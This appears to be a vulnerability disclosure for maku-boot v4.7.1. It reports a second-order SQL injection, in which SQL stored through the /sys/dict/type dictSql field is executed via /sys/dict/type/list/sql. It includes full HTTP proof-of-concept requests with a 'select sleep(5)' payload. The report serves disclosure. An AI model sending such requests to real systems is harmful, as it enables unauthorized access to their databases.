

BUG_Author

Longlong Gong

# Project

Address: [maku-boot](https://gitee.com/makunet/maku-boot)

## SQL inject

###  `/sys/dict/type` `/sys/dict/type/list/sql` SQL inject

[Affected version]

v4.7.1


[Affected Component]

/sys/dict/type

/sys/dict/type/list/sql


[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip


[Description]

The Maku boot system v4.7.1 has a secondary injection vulnerability in the dictSQL parameter of the `/sys/dict/type ` interface, which allows SQL statements to be constructed and executed through `/sys/dict/type/list/SQL `. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
PUT /sys/dict/type HTTP/1.1
Host: localhost:8080
Content-Length: 200
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close

{"id":1,"dictType":"post_status","dictName":"1","sort":0,"pid":null,"dictSource":1,"dictSql":"select sleep(5)","remark":"1","createTime":"2025-03-04 22:09:20","updateTime":"2025-03-04 23:17:54","hasChild":0}
```

```
GET /sys/dict/type/list/sql?id=1 HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close


```

System Settings ->Data Dictionary ->Modify ->Dynamic SQL, add SQL statements, click on Dynamic Data Execution





maku-boot-v4.7.1\maku-boot-system\src\main\java\net\maku\system\dao\SysDictDataDao.java


